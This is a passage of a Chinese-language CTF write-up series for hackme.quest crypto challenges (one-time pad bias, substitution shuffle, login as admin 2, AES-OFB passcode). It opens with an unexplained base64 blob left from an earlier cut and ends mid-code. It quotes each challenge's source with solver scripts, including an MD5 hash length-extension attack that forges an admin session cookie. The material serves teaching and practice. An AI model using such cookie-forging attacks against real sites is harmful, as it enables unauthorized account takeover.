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'))
```

#### 88 Crypto    one time padding

write up：

源码：

```php
<?php

/*
 * one time padding encryption system
 *
 * we generate {$r = random_bytes()} which {strlen($r) == strlen($plaintext)}
 * and encrypt it with {$r ^ $plaintext}, so no body can break our encryption!
 */

// return $len bytes random data without null byte
function random_bytes_not_null($len)
{
    $result = '';
    for($i = 0; $i < $len; $i++)
        $result .= chr(random_int(1, 255));
    return $result;
}

if(empty($_GET['issue_otp'])) {
    highlight_file(__file__);
    exit;
}

require('flag.php');

header('Content-Type: text/plain');

for($i = 0; $i < 20; $i++) {
    // X ^ 0 = X, so we want to avoid null byte to keep your secret safe :)
    $padding = random_bytes_not_null(strlen($flag));
    echo bin2hex($padding ^ $flag)."\n";
}
```

函数`random_bytes_not_null`存在问题。`random_int(1, 255)`，避免了`X ^ 0 = X`的结果。那么统计`X`异或的所有情况，没有出现的字符便是`X`。

```python
import requests
import binascii

data=[]
for i in range(0x100):
    r=requests.get("https://ctf.hackme.quest/otp/?issue_otp=1")
    for each in r.text.split("\n")[:-1]:
        data.append(binascii.unhexlify(each))

flag=""
for i in range(50):
    for j in range(0x100):
        for k in range(len(data)):
            if j==data[k][i]:
                break
        if k==len(data)-1:
            flag=flag+chr(j)
print(flag)
assert len(flag)==50,"try again"
```

#### 89 Crypto    shuffle

write up：

`crypt.py`：

```python
import random
import string

characters = ''.join(map(chr, range(0x20, 0x7f)))

with open('plain.txt', 'r') as fin:
    plaintext = fin.read()

mapping = list(characters)
random.shuffle(mapping)
mapping = ''.join(mapping)

T = str.maketrans(characters, mapping)

with open('crypted.txt', 'w') as fout:
    fout.write(plaintext.translate(T))

plain = list(plaintext)
random.shuffle(plain)
suffled_plaintext = ''.join(plain)

with open('plain.txt', 'w') as frandom:
    frandom.write(suffled_plaintext)
    
```

分析加密代码：

- 使用单表替换密码加密，保存为`crypted.txt`
- 将明文打乱，保存为`plain.txt`

统计`plain.txt`和`crypted.txt`字符出现的频率，形成替换表既能解密`crypted.txt`。

```python
import re

patt1=re.compile("FLAG{.+?}")
def append_values(tables,values):
    new_tables=[]
    for each in tables:
        for value in values:
            if value not in each:
                new_tables.append(each+value)
    return new_tables
 
def generate_tables_from_dic_values(mt):
    tables=[""]
    for key,values in mt.items():
        tables=append_values(tables,values)
    return tables

characters = list(''.join(map(chr, range(0x20, 0x7f))))
dic1={}.fromkeys(characters,0)
dic2={}.fromkeys(characters,0)

f=open("plain.txt","r")
plain=f.read()
f.close()
for each in plain:
    if each in dic1:
        dic1[each]=dic1[each]+1
f=open("crypted.txt","r")
crypted=f.read()
f.close()
for each in crypted:
    if each in dic2:
        dic2[each]=dic2[each]+1

mt={}
for pkey,pvalue in dic1.items():
    if pvalue!=0:
        mt[pkey]=[]
        for ckey,cvalue in dic2.items():
            if pvalue==cvalue:
                mt[pkey].append(ckey)

intab="".join(mt.keys())
outtabs=generate_tables_from_dic_values(mt)

for outtab in outtabs:
    crypted=crypted
    dec=crypted.translate(str.maketrans(outtab,intab))
    if len(patt1.findall(dec))>0:
        print(patt1.findall(dec)) 
```

#### 90 Crypto    login as admin 2

write up：

源码：

```php
<?php
require('users_db.php'); // $users

if($_GET['show_source'] === '1') {
    highlight_file(__FILE__);
    exit;
}

if($_GET['logout'] === '1') {
    setcookie('user', '', 0);
    header('Location: ./');
}

function set_user($user_data)
{
    global $user, $secret;

    $user = [
        'name' => $user_data['name'],
        'admin' => $user_data['admin']
    ];

    $serialized = http_build_query($user);
    $sig = md5(md5($secret).$serialized);
    $all = base64_encode("{$sig}#{$serialized}");
    setcookie('user', $all, time()+3600);
}

$error = null;

function load_user()
{
    global $secret, $error;

    if(empty($_COOKIE['user'])) {
        return null;
    }

    list($sig, $serialized) = explode('#', base64_decode($_COOKIE['user']), 2);

    if(md5(md5($secret).$serialized) !== $sig) {
        $error = 'Invalid session';
        return false;
    }

    parse_str($serialized, $user);
    return $user;
}

$user = load_user();

if(!empty($_POST['name']) && !empty($_POST['password'])) {
    $user = false;
    foreach($users as $u) {
        if($u['name'] === $_POST['name'] && $u['password'] === $_POST['password']) {
            set_user($u);
        }
    }
}
?>
```

使用`guest/guest`登录：

- `$_COOKIE['user']=NmJjYjljOTE1NTk3NWE1M2U5NTFiMGI1MGYxMzc0ODAjbmFtZT1ndWVzdCZhZG1pbj0w`
- `base64_decode($_COOKIE['user'])=6bcb9c9155975a53e951b0b50f137480#name=guest&admin=0`

提示使用`length extension attack`。

##### ##哈希长度拓展攻击

参考文章：`https://www.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks`。

example：

```c
#include <stdio.h>
#include <arpa/inet.h>
#include <string.h>
#include <openssl/md5.h>
void int_to_bytes(long long num,unsigned char out[8])
{
    int i;
    for(i=0;i<8;i++)
    {
        out[i]=(num>>8*i)&0xff;
    }
}
void hash_1()
{
    int i;
    unsigned char buffer[16];
    unsigned char data[0x40]="testdata";
    
    MD5_CTX ctx;
    MD5_Init(&ctx);
    MD5_Update(&ctx, data, 8);
    MD5_Final(buffer, &ctx);
    for(i=0;i<16;i++)
    {
        printf("%02x",buffer[i]);
    }
    printf("\n");
}
void hash_2()
{
    int i;
    unsigned char buffer[16];
    unsigned char data[0x40]="testdata";
    int data_len=strlen(data);
    data[data_len]=0x80;
    int_to_bytes(data_len*8,data+0x38);
    
    MD5_CTX ctx;
    MD5_Init(&ctx);
    MD5_Update(&ctx, data, 0x40);
    MD5_Update(&ctx, "append", 6);
    MD5_Final(buffer, &ctx);
    for(i=0;i<16;i++)
    {
        printf("%02x",buffer[i]);
    }
    printf("\n");
}
void hash_3()
{
    int i;
    unsigned char buffer[16];
    unsigned char data[0x40]="random_data";
    
    MD5_CTX ctx;
    MD5_Init(&ctx);
    MD5_Update(&ctx, data, 0x40);
    
    ctx.A = htonl(0xef654c40); /* <-- This is the hash we already had */
    ctx.B = htonl(0xab4f1747);
    ctx.C = htonl(0xfc699915);
    ctx.D = htonl(0xd4f70902);
    
    MD5_Update(&ctx, "append", 6);
    MD5_Final(buffer, &ctx);
    for(i=0;i<16;i++)
    {
        printf("%02x",buffer[i]);
    }
    printf("\n");
}
int main()
{
    hash_1();
    hash_2();
    hash_3();
    return 0;
}
```

思路：

- `$sig = md5(md5($secret).$serialized)`
- `$serialized = 'name=guest&admin=0'`
- `$sig = 6bcb9c9155975a53e951b0b50f137480`
- `length(md5($secret)) = 32`

```python
import re
import base64
import requests
import hashpumpy

patt1 = re.compile("FLAG{.+?}")
_hash, extend_data = hashpumpy.hashpump('6bcb9c9155975a53e951b0b50f137480', 'name=guest&admin=0', '&admin=1', 32)
print(extend_data)
payload = base64.b64encode(_hash.encode('utf-8')+b'#'+extend_data).decode()
cookies = {
    'user':payload
}
r = requests.get(url = 'https://ctf.hackme.quest/login2/',cookies = cookies)
print(patt1.findall(r.text))
```

#### 91 Crypto    passcode

##### ##MODE_OFB



write up：

源码：

```python
#!/usr/bin/env python

from Crypto.Cipher import AES
import string
import random
import sys
import signal

key = "XXXXXXXXXXXXXXXX"
flag = "FLAG{..........................}" # Not real flag ...
iv = ''.join(random.choice(string.hexdigits) for _ in range(16))

signal.alarm(60)

def encrypt(p):
    return AES.new(key, AES.MODE_OFB, iv).encrypt(p)


print \
"""
    _    ___ ____ _____   ____   _    ____ ____   ____ ___  ____  _____
   / \  |_ _/ ___|___ /  |  _ \ / \  / ___/ ___| / ___/ _ \|  _ \| ____|
  / _ \  | |\___ \ |_ \  | |_) / _ \ \___ \___ \| |  | | | | | | |  _|
 / ___ \ | | ___) |__) | |  __/ ___ \ ___) |__) | |__| |_| | |_| | |___
/_/   \_\___|____/____/  |_| /_/   \_\____/____/ \____\___/|____/|_____|
"""

print "Try to decode the cipher:"
print encrypt(flag).encode("hex")
print "===================================================================="
sys.stdout.flush()


while True:
    print "Calcuate the passcode...(Press any key to continue)"
    sys.stdout.flush()
    raw_input()
    p = ''.join(random.choice(string.lowercase) for _ in range(32))
